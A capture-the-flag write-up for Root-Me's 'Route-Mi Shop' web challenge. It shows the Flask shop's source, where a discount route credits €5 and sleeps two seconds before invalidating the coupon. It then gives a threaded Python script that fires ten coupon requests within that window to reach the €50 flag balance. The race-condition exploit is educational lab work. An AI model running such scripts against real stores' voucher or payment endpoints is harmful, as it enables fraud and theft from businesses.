






# Day 10 - Route-Mi Shop

- Category: Web
- Difficulty: Medium
- Format: Whitebox

## Description

You dreamt it, we did it. The shop for the famous Route-Mi platform is now available. And guess what? We're offering you a €5 discount voucher, so enjoy yourself, it's on us.

## Writeup

**TLDR: Shop, reduction voucher, race condition**

As the app explains, the route-mi shop is finally available, and to celebrate, Root-Me is offering a €5 discount voucher for the shop.



Le site est open source et le code est accessible à l'URL suivante: 

- [https://day10.challenges.xmas.root-me.org/](https://day10.challenges.xmas.root-me.org/)

The sources looks like this:

```bash
» tree
.
├── app
│   ├── app
│   │   ├── app.py
│   │   ├── config.py
│   │   ├── flag.txt
│   │   ├── models.py
│   │   ├── requirements.txt
│   │   ├── routes.py
│   │   ├── static
│   │   │   └── images
│   │   │       ├── 1.png
│   │   │       ├── 2.png
│   │   │       ├── 3.png
│   │   │       ├── 4.png
│   │   │       ├── 5.png
│   │   │       ├── 6.png
│   │   │       └── logo.png
│   │   └── templates
│   │       ├── account.html
│   │       ├── base.html
│   │       ├── home.html
│   │       ├── login.html
│   │       └── signup.html
│   └── Dockerfile
├── docker-compose.yml
├── README.md
```

All in all, this is a python application based on the Flask framework, which uses SQLAlchemy for the database, and the queries seem to be well done.

When you arrive on the page, the objective is quite clear: you don't necessarily have to order a route-mi t-shirt, even if everyone dreams of one, but you do have to succeed in obtaining the “Flag” item.



However, it costs €50 and it's not possible to credit money to our account.

Once our account created, we can go to our account settings and discover we have a new voucher of 5€ ready to be added to our account, offered by Root-Me.



By reading the source code we see that voucher is based on UUIDv4 and a priori there's no way of predicting UUIDv4. And even if it were possible, each voucher is linked to an account, to avoid a user creating several accounts and crediting all the vouchers to a single account.

```python
@app.route('/signup', methods=['GET', 'POST'])
def signup():
    if request.method == 'POST':
        email = request.form['email']
        password = request.form['password']
        
        if User.query.filter_by(email=email).first():
            flash('Email already known.')
            return redirect(url_for('signup'))
        
        new_user = User(email=email)
        new_user.set_password(password)
        
        db.session.add(new_user)
        db.session.commit()
        
        coupon_code = str(uuid4())
        coupon = Coupon(code=coupon_code, user_id=new_user.id)
        
        db.session.add(coupon)
        db.session.commit()
        
        flash('Account created! You can now login.')
        return redirect(url_for('login'))
    
    return render_template('signup.html')
```

The application doesn't seem to be vulnerable to any injection force, as it's based on flask_sqlalchemy, which, last time I checked, isn't vulnerable to SQL Injections or anything else.

We're going to analyze each function one by one, but we're going to focus on the application's most sensitive feature, the one that allows you to validate the voucher to add €5 to your account.

The "buy" function explains that if a user succeeds in buying the flag then he can validate the challenge.

```python
@app.route('/buy/<int:product_id>', methods=['POST'])
@login_required
def buy(product_id):
    product = Product.query.get(product_id)
    user = User.query.get(session['user_id'])

    if user.balance >= product.price:
        if product.name == "Flag":
            flash(f"Congratzzz, here is your flag : {open('flag.txt').read()}")
        else:
            flash(f"Thanks for your purchase! You will receive your ✨{product.name}✨ very soon!")

        user.balance -= product.price
        db.session.commit()
    else:
        flash("Insufficient balance for this product.")

    return redirect(url_for('home'))
```

However, a voucher can only be validated once, and is specific to each user session, which means that it is not possible to create several accounts to have enough vouchers and validate them all on the same account.

```python
@app.route('/discount', methods=['POST'])
@login_required
def discount():
    user = User.query.get(session['user_id'])
    coupon_code = request.form.get('coupon_code')

    coupon = Coupon.query.filter_by(user_id=user.id, code=coupon_code).first()

    balance = int(user.balance)
    if coupon:
        if not coupon.used:
            balance += 5.0
            user.balance = balance
            db.session.commit()

            anti_bruteforce(2)

            coupon.used = True
            user.can_use_coupon = False
            db.session.commit()
            flash("Your account has been credited with 5€ !")
        else:
            flash("This coupon has already been used.")
    else:
        flash("This coupon is invalid or does not belong to you.")

    return redirect(url_for('account'))
```

By reading the code, you can see how it works. The process is as follows:

- Add +€5 to the account
- Save data
- Sleep 2 seconds to avoit bruteforce attack (wait what?)
- Invalidate the voucher
- Block the user to add new voucher
- Save data

Among other things, users can credit a €5 voucher to their account and then have 2 seconds to resubmit requests before the voucher is invalidated. This is a Race Condition.

To exploit it we will send 10 requests (10*5€) in less than 2 seconds in order to obtain €50 on our wallet!

The python script works perfectly to do this :

```python
import sys
import threading
import requests
import time
import urllib3
urllib3.disable_warnings()

def post_discount(session_cookie, coupon_code):
    url = 'https://day10.challenges.xmas.root-me.org/discount'
    headers = {
        'Host': 'day10.challenges.xmas.root-me.org',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Accept-Encoding': 'gzip, deflate, br',
        'Cookie': f'session={session_cookie}',
    }
    data = {
        'coupon_code': coupon_code
    }
    response = requests.post(url, headers=headers, data=data, verify=False)
    print(f"Request sent .. {response.status_code}")

def main():
    if len(sys.argv) < 3:
        print("Usage: python script.py <session_cookie> <coupon_code>")
        sys.exit(1)

    session_cookie = sys.argv[1]
    coupon_code = sys.argv[2]

    for _ in range(10):
        thread = threading.Thread(target=post_discount, args=(session_cookie, coupon_code))
        thread.start()
        time.sleep(0.2) 

if __name__ == "__main__":
    main()
```



Once the script has been executed, we can return to our account and see that the Race Condition has been carried out and that the balance is 50€!



So you can buy the flag and validate the challenge: 

